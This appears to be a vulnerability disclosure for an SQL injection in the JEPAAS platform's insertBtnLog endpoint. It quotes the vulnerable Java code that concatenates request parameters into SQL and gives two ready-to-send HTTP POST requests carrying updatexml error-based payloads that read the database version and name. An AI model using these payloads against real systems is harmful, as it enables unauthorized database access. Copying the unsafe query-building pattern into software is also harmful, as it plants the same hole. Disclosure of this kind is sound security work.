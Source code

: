 ## Vulnerability Description
Multiple parameters have SQL injection vulnerability in JEPAAS, via /je/login/btnLog/insertBtnLog , which could allow a remote user to submit a specially crafted query, allowing an attacker to retrieve all the information stored in the DB.


Analysis of je-core-7.2.8.jar revealed SQL injection issues. Multiple parameters in the insertBtnLog interface in BtnLogController.java had SQL injection issues:
```
    @RequestMapping(
        value = {"/insertBtnLog"},
        method = {RequestMethod.POST}
    )
    @ResponseBody
    public void insertBtnLog(MethodArgument param) {
        HttpServletRequest request = param.getRequest();
        String btnTypeName = request.getParameter("btnTypeName");
        String btnTypeCode = request.getParameter("btnTypeCode");
        String btnNatureCode = request.getParameter("btnNatureCode");
        String btnNatureName = request.getParameter("btnNatureName");
        String strData = param.getStrData();
        String funcName = request.getParameter("funcName");
        String btnName = request.getParameter("btnName");
        String btnId = request.getParameter("btnId");
        String funcId = param.getFuncId();
        String nowDate = DateUtils.formatDate(new Date());
        String nowTime = DateUtils.formatTime(new Date());
        EndUser user = SecurityUserHolder.getCurrentUser();
        this.metaService.executeSql("insert into JE_CORE_BTNLOG (JE_CORE_BTNLOG_ID,BTNLOG_BUTTONTYPE_NAME,BTNLOG_BUTTONTYPE_CODE,BTNLOG_BUTTONNATURE_NAME,BTNLOG_BUTTONNATURE_CODE,BTNLOG_ANMC,BTNLOG_ANID,BTNLOG_GNMC,BTNLOG_GNID,SY_CREATEUSERID,SY_CREATEUSERNAME,SY_JTGSID,SY_JTGSMC,SY_CREATETIME,BTNLOG_TJRQ,BTNLOG_DJCS) values ('" + JEUUID.uuid() + "','" + btnTypeName + "','" + btnTypeCode + "','" + btnNatureName + "','" + btnNatureCode + "','" + funcName + "(" + btnName + ")','" + btnId + "','" + funcName + "','" + funcId + "','" + user.getUserId() + "','" + user.getUsername() + "','" + user.getJtgsId() + "','" + user.getJtgsMc() + "','" + nowTime + "','" + nowDate + "',(select a.count from (select count(*) AS count from JE_CORE_BTNLOG where BTNLOG_ANID = '" + btnId + "') a) + 1)", new Object[0]);
        this.toWrite(BaseRespResult.successResult(strData), param);
    }
```

![3d07068714caf3d4bb8745a3a58b0efe.png](/images/3d07068714caf3d4bb8745a3a58b0efe.png)
Concatenating multiple parameters when executing SQL statements leads to SQL injection：
`btnTypeName、btnTypeCode、btnNatureCode、btnNatureName、funcName、btnName、btnId`

## Payload
```
POST /je/login/btnLog/insertBtnLog HTTP/1.1
Host: 192.168.88.131:8080
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 125
Content-Type: application/x-www-form-urlencoded

btnTypeName=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+version%28%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271
```
![9cdba1470bab9c6184b72831a5d0195d.png](/images/9cdba1470bab9c6184b72831a5d0195d.png)
```
POST /je/login/btnLog/insertBtnLog HTTP/1.1
Host: 192.168.88.131:8080
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 108
Content-Type: application/x-www-form-urlencoded

btnTypeCode=1'%20and%201%3d(updatexml(1%2cconcat(0x7e%2c(select%20database())%2c0x7e)%2c1))%20and%20'1'%3d'1
```
![3ac3ecc812a23637b9e41e4037190b29.png](/images/3ac3ecc812a23637b9e41e4037190b29.png)
